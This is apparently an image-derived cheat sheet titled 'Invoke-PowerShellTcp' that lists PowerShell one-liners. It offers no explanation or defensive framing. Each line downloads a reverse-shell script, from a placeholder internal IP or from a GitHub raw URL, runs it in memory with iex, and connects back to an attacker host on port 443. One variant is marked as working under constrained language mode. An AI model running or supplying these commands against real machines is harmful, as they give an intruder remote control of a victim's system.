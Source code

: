 # Invoke-PowerShellTcp
#By Luis Carreto

#Local Accres
powershell.exe -c iex ((New-Object  Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443 

powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443    //powershell constrained language


#External Acces
powershell.exe -c iex ((New-Object  Net.WebClient).DownloadString('https://raw.githubusercontent.com/dr0pc/Invoke-PowerShellTcp/main/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443 


